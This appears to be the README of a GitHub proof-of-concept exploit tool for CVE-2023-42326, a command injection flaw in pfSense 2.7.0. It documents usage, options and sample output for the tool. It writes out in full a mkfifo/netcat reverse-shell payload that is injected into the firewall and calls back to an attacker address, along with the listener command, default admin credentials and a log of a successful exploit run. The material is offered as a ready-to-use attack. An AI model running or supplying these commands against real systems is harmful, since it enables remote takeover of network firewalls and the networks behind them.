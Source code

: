 
# pfSense 2.7.0 Command Injection Exploit (CVE-2023-42326)

This Python script is a Proof-of-Concept (PoC) exploit for the command injection vulnerability (CVE-2023-42326) in pfSense 2.7.0. The vulnerability allows authenticated attackers to inject and execute arbitrary commands via the `interfaces_gif_edit.php` and `interfaces_gre_edit.php` components.

## Features
- Exploit mode selection (`gif` or `gre`) to choose the vulnerable components.
- Command injection capability to run arbitrary shell commands.
- Netcat reverse shell handling with automatic thread management.
- Debug mode for enhanced visibility of request data.

## Prerequisites
Before running the script, make sure you have:
- Python 3.x installed on your system.
- Required Python libraries installed:
  ```bash
  pip install requests beautifulsoup4 rich
  ```

## Usage

### Basic Example (Command Injection)

This command injects a shell command that creates a reverse shell back to your machine:

```bash
python3 exploit.py -u "admin" -p "pfsense" --mode "gif" -t "http://10.101.1.1" -c "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.151.1 80 > /tmp/f &"
```

- `-u`: Username for pfSense admin login.
- `-p`: Password for pfSense admin login.
- `--mode`: Exploit mode (either `gif` or `gre`).
- `-t`: Target URL of pfSense.
- `-c`: The shell command to inject.
- `-d`: (Optional) Enable debug mode to see raw response data.

### Reverse Shell Example
Ensure you have a Netcat listener running on your machine:

```bash
nc -lvnp 80
```

Then, run the script with a reverse shell command like this:

```bash
python3 exploit.py -u "admin" -p "pfsense" --mode "gif" -t "http://10.101.1.1" -c "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.151.1 80 > /tmp/f &"
```

### Demo GIFs

1. **Logging into pfSense and Exploiting GIF Interface**

   ![Demo 1 - GIF Interface](img/demo.gif)

2. **Executing a Reverse Shell**

   ![Demo 2 - Reverse Shell](img/example.png)

### Script Options
| Argument      | Description                                                        |
|---------------|--------------------------------------------------------------------|
| `-u`          | Username for pfSense admin login.                                  |
| `-p`          | Password for pfSense admin login.                                  |
| `-t`          | Target pfSense URL/IP address (e.g., `http://10.101.1.1`).         |
| `--mode`      | Exploit mode: `gif` (for `interfaces_gif_edit.php`) or `gre`.      |
| `-c`          | Command to inject into the vulnerable component.                   |
| `-d`          | Optional. Enable debug mode to print response data for visibility. |

### Example Output
When the exploit runs successfully, you should see output similar to this:

```bash
██████╗ ███████╗██████╗ ██╗    ██╗███╗   ██╗███╗   ███╗███████╗
██╔══██╗██╔════╝██╔══██╗██║    ██║████╗  ██║████╗ ████║██╔════╝
██████╔╝█████╗  ██████╔╝██║ █╗ ██║██╔██╗ ██║██╔████╔██║█████╗  
██╔═══╝ ██╔══╝  ██╔═══╝ ██║███╗██║██║╚██╗██║██║╚██╔╝██║██╔══╝  
██║     ██║     ██║     ╚███╔███╔╝██║ ╚████║██║ ╚═╝ ██║███████╗
╚═╝     ╚═╝     ╚═╝      ╚══╝╚══╝ ╚═╝  ╚═══╝╚═╝     ╚═╝╚══════╝

Done with ❤️  by @bl4ckarch                                                            
[2024-10-24 03:57:59] [SUCCESS] Target http://10.101.1.1 is reachable
[2024-10-24 03:57:59] [INFO] Fetching CSRF token from: http://10.101.1.1/
[2024-10-24 03:57:59] [SUCCESS] CSRF token extracted successfully
[2024-10-24 03:57:59] [INFO] Sending GIF exploit request to http://10.101.1.1/interfaces_gif_edit.php
[2024-10-24 03:57:59] [SUCCESS] GIF Exploit sent successfully
```

### Notes

- **Privilege Requirement**: You must have valid admin credentials for the pfSense instance.
- **Target System**: This exploit is specific to pfSense 2.7.0.
- **Reverse Shell**: Ensure your firewall settings allow incoming connections on the specified port when setting up a reverse shell.

### Debug Mode

If you want to see more details about the requests being sent, you can enable debug mode by adding `-d` to your command. This will print out response data and help you troubleshoot any issues.

```bash
python3 exploit.py -u "admin" -p 'pfsense' --mode 'gif' -t http://10.101.1.1 -c "your_command_here" -d
```

### Troubleshooting
- Ensure the target system is reachable.
- Double-check the credentials being used for login.
- Use the `-d` flag for more detailed logging if needed.

### License

This project is licensed under the MIT License.
